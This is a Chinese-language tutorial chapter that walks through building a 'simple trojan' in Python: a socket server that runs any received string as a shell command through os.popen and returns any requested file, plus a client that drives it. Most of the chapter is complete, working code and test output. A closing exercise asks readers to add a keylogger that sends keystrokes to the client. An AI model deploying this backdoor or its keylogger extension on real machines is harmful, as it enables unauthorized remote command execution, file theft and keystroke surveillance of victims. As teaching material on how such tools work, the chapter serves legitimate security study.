



## 3.2 一个简单木马

在3.1节，我们学习了socket编程的基础，可以实现基本的client和server端的编程。本节在此基础上，实现client和server端的连接和交互，实现一个基本的木马程序。该程序可以实现读取服务端文件内容发送给客户端，或者执行shell命令。

### 3.2.1 服务端

我们先按照之前的做法，创建server类，在start方法中完成服务器的启动和监听，并保持连接接收客户端发送的数据。代码如下：

```Python
# -*- coding: UTF-8 -*-

import socket
import sys
import os


class server:
    def __init__(self, ip, port):
        self.port = port
        self.ip = ip
        self.bufferSize = 10240

    def start(self):  # 启动监听，接收数据
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.bind((self.ip, self.port))  # 绑定
            s.listen(10)  # 监听
            print('等待客户端连接')
            while True:  # 一直等待新的连接
                try:
                    conn, addr = s.accept()  # 接收连接
                    print('客户端连接 ' + addr[0] + ':' + str(addr[1]))
                    while True:  # 保持长连接
                        data = conn.recv(self.bufferSize)#接收数据
                        if not data:#断开连接时退出当前循环
                            break
                        else:
                            self.executeCommand(conn,data)
                    conn.close()#关闭当前连接
                except socket.error as e:
                    print(e)
                    conn.close()  # 关闭连接
        finally:
            s.close()  # 关闭服务端

    def executeCommand(self, tcpCliSock, data):  # 解析并执行命令
        try:#
             #判断是否是文件
              #获取文件大小
              #发送文件大小
              #发送文件内容
            #如果不是文件则执行shell命令并返回结果
            pass
        except:
            raise


if __name__ == '__main__':
    s = server('', 8800)
    s.start()
```

在上面的代码中，我们使用了连个while...true循环，第一个用来接收新的连接，第二个是在当前连接中保持连接，一直接收数据。此处我们假定客户端发送的命令数据一定小于10240 byte，所以一次接收完毕，然后调用executeCommand方法。

executeCommand方法要完成的第一个任务是判断传来的命令是否是一个文件路径，这里我们可以使用

```Python
os.path.isfile(path)
```
方法来判断。
接下来是获取文件大小，可以使用

```Python
os.path.getsize(path)
```
方法。

接下来是打开文件，然后逐行读取并发送出去，文件操作如果还不熟悉，请回头复习2.1节。

下面我们来完善executeCommand方法：

```Python
        try:#
             message = data.decode("utf-8")
             if os.path.isfile(message):#判断是否是文件
                filesize = str(os.path.getsize(message))#获取文件大小
                print("文件大小为：",filesize)
                tcpCliSock.send(filesize.encode())#发送文件大小
                data = tcpCliSock.recv(self.bufferSize)  
                print("开始发送")
                f = open(message, "rb")#打开文件
                for line in f:
                    tcpCliSock.send(line)#发送文件内容
        except:
            raise
```
上面的代码需要注意的是，我们获取和发送文件大小的原因，如果文件非常大，客户端是无法一次性接收完毕的，需要循环接收数据，直到指定大小为止。在发送大小之后，我们调用了recv方法：

```Python

data = tcpCliSock.recv(self.bufferSize)
```

这里有个交互，客户端收到大小信息后，会回复一个消息给服务端，服务端在这里等待客户端的消息，这会挂起连接直到客户端消息到达。实际作用是分割了文件大小和文件内容的发送和接收，避免了粘包的情况。

接下来打开文件，循环发送。

服务端最后一个功能是执行shell命令，这里执行shell命令并且能获取返回值的简单做法为调用
```
os.popen(cmd).read()
```
方法。

下面将executeCommand方法补充完整：

```Python
 def executeCommand(self, tcpCliSock, data):  # 解析并执行命令
        try:#
             message = data.decode("utf-8")
             if os.path.isfile(message):#判断是否是文件
                filesize = str(os.path.getsize(message))#获取文件大小
                print("文件大小为：",filesize)
                tcpCliSock.send(filesize.encode())#发送文件大小
                data = tcpCliSock.recv(self.bufferSize)  
                print("开始发送")
                f = open(message, "rb")#打开文件
                for line in f:
                    tcpCliSock.send(line)#发送文件内容
            else:
                tcpCliSock.send(('0001'+os.popen(message).read()).encode('utf-8'))
        except:
            raise
```

补充的逻辑中，注意使用了encode方法对数据进行编码，接收端需要使用同样的编码格式进行解码。同时需要注意，在shell命令执行结果前我们添加了'0001'，客户端需要根据此消息头来确定返回的数据是文件还是shell命令执行结果。到此服务端程序基本完成，下面写客户端。

### 3.2.2 客户端

和上一节类似，我们先完成一个基本客户端程序。

```Python
# -*- coding: UTF-8 -*-

import socket
import sys
import re
import os

class Client:
    def __init__(self,serverIp,serverPort):
        self.serverIp=serverIp #待连接的远程主机的域名
        self.serverPort = serverPort

    def connet(self): #连接方法
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        except socket.error as e:
            print("Failed to create socket. Error: %s"%e)
            
        try:
            s.connect((self.serverIp,self.serverPort))
            while True:
                #接收用户输入内容
                #发送命令到服务端
                #接收数据
                #判断数据类型
                  #命令结果
                  #文件
                    #接收文件并写入磁盘
        except socket.error:
            s.close()
            raise #退出进程


        


if __name__ == '__main__':
    cl = Client('127.0.0.1',8800)
    cl.connet()
    sys.exit() #退出进程

```

在connect方法中，我们使用while...True来保持客户端和服务器的长连接，并且需要实现的功能为接收用户从命令行传入的命令，然后将命令发送到服务端。接收服务端返回的数据，并判断数据是shell命令结果还是文件内容。如果是文件内容则将文件数据循环接收，写入磁盘。下面我们分解一下基本功能点。

接收用户输入，我们可以使用‘input’函数。

数据接收之后我们需要判断是否是以‘0001’开头，可以使用正则库re来进行正则匹配：

```Python
re.search("^0001",message)
```

接收文件的时候，需要循环接收，直到指定大小。

```Python
while received_size < file_total_size:
            data = tcpCliSock.recv(bufferSize)
            f.write(data)#文件写入
            received_size += len(data)#累积大小
            print("已接收:", received_size)
#接收完毕
```

下面我们来完善connet方法。

```Python
 def connet(self): #连接方法
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        except socket.error as e:
            print("Failed to create socket. Error: %s"%e)
            
        try:
            s.connect((self.serverIp,self.serverPort))
            while True:
                message = input('> ')#接收用户输入
                if not message:
                    break
                s.send(bytes(message, 'utf-8'))#发送命令
                data = s.recv(self.bufferSize)#接收数据
                if not data:
                    break
                if re.search("^0001",data.decode('utf-8','ignore')):#判断数据类型
                    print(data.decode('utf-8')[4:])
                else:#文件内容处理
                    s.send("File size received".encode())#通知服务端可以发送文件了
                    file_total_size = int(data.decode())#总大小
                    received_size = 0
                    f = open("new" +os.path.split(message)[-1], "wb")#创建文件
                    while received_size < file_total_size:
                        data = s.recv(self.bufferSize)
                        f.write(data)#写文件
                        received_size += len(data)#累加接收长度
                        print("已接收:", received_size)
                    f.close()#关闭文件
                    print("receive done", file_total_size, " ", received_size)
        except socket.error:
            s.close()
            raise #退出进程
        finally:
            s.close()
```

客户端的方法到此完善完毕。

### 3.2.3 测试

我们可以启动服务端和客户端进行简单的测试。先启动服务端：


再启动客户端,输入ls命令：



我们看到ls命令的返回结果，有两个文件，接下来我们要求服务端返回client.py的文件内容。
客户端输出内容如下图：



服务端输出内容如下图：



从上面的结果我可以看出，服务端和客户端的整个交互流程。最后客户端成功接收了文件：


### 3.2.4 小结

本节我们在的socket编程的基础上，完成了一个建议木马程序的客户端和服务端，继续巩固了之前所学的知识。本节的作业如下：

1. 给木马程序添加键盘监控功能，并发送键盘记录信息给客户端

下一节，我们继续学习更加复杂的大型客户端、服务端编程的方法。


           欢迎到关注微信订阅号，交流学习中的问题和心得


  

